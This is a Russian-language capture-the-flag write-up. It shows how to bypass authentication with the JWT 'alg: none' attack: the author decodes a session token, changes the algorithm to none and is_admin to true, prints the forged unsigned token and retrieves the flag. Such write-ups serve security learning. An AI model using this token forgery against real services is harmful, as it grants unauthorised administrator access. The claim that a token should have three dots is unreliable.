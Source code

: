 # Time to change - 55
_Кажется, мы нашли тайную страничку админа и даже его стандартные креды superuser:superpass подходят. Но почему же наш админ - не админ..?_

_http://62.84.119.240:8081/_

### Solution
Переходим на страницу авторизации _http://62.84.119.240:8081/login_ и вводим данные в условии кредиты.

Мы зашли под суперюзером, но вот незадача, в статусе 
`Admin: False`, а `Flag: None`

В куках в строке session лежит jwt.
Декодим токен и получаем:
```
Header: {
  "typ": "JWT",
  "alg": "RS256"
}
Payload: {
  "username": "superuser",
  "is_admin": false
}
```
Замечаем, что алгоритм RS256, значит брутить сигнатуру не имеет смысла. Тогда воспользуемся `jwt none attack`. Нужно в Headers изменить alg на none и в Payload is_admin на true
Данные для токена:
```
Header: {
  "typ": "JWT",
  "alg": "none"
}
Payload: {
  "username": "superuser",
  "is_admin": true
}
```
Шифруем и получаем:
`eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6InN1cGVydXNlciIsImlzX2FkbWluIjp0cnVlfQ.`

(**По стандартам токен должен содержать 3 точки**)

Меняем куку, обновляем страницу и получаем флаг:
```
Great!
Your info:
Username: superuser
Admin: True
Flag: CTF{15_4dm1n_70k3n}
```